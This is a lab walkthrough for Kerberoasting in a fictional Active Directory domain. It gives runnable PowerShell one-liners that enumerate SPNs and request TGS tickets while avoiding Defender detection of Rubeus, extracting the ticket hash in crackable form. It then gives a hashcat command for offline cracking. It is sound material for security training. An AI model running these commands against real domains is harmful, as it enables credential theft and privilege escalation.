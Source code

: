 # Advanced Kerberoasting


## Roast like a Ghost


The point of kerberoasting is to get credentials for accounts with higher privledges. Service accounts or accounts with SPNs (Call them SPINS if you want to be cool.) often have higher credentials. MSSQL databases actually automatically create them for the service account running the MSSQL service.  But they can often be assigned to accounts for number of services including files services.

As you can imagine, even lowly Domain Users need to interact with file services, and can request tickets associated with these SPN accounts. Previously you did this were Rubeus, now we are going to turn on defender, watch it delete that tool immediately because it is super burned, and then craft our own Ticket Requests to get the Kerb Hash back from the svc-file account.


Login from LIGHTEATER to TWORIVERS using RDP and the following user level credentials:  

1. Now that you have the SAM account names, perform a subsquent query to obtain the SPN names. These will be used to perform targeted kerberoasting attacks by obtaining the kerberos pre-authentication ticket hash from the DC.



```
$name="svc-file"
[string[]]$spns=([adsisearcher]"(&(objectCategory=user)(samaccountname=$name))").findall()|%{$_.properties["serviceprincipalname"]};$spns
```

1. Armed with the list of the user SAM accounts and SPN names, we will perform the attack using the command below. Note that you will need to change the SPN and SAM account for each user (e.g., "`HOST/dragonmount.wheel.co`", "`svc-file`"). Copy the SPN hashes to crack offline.

Requesting a TGS-REP ticket for the user with the SPN.

TGS flow is used becuase you already have a TGT because you are an authenticated domain user. So you can request tickets for any Service.

SPNs

```
$_spn={param($spn,$sam);$_=[reflection.assembly]::loadwithpartialname("system.identitymodel");

$tgt=[identitymodel.tokens.kerberosrequestorsecuritytoken]::new($spn);$tb=$tgt.getrequest();if($tb){$th=[bitconverter]::tostring($tb)-replace"-";[collections.arraylist]$pt=($th-replace"^(.*?)04820...(.*)","`$2")-split"a48201";$pt.removeat($pt.count-1);$hs=$pt-join"a48201";$hs=$hs.insert(32,"`$");"`n`$krb5tgs`$23`$*"+$sam+"/"+$spn+"*`$"+$hs;}};$_spn.invoke("HOST/dragonmount.wheel.co", "svc-file");
```
Returns the RC4 HASH

1. Copy the output into a file named kerb.hash


1. If you wanted to use hashcat, yourcommand would look like this. Of course the password has to be in the list.
   ```sh
   hashcat -m 13100 -a 0 -w 4 --force --opencl-device-types 1,2 -O ./kerb.hash ./rawk_you.txt
   ```
   Keep a text file with the decrypted passwords for each domain admin.

13100 is the type used for this kind of ticket.
> You can view modes using: `hashcat -h | grep -i kerberos`




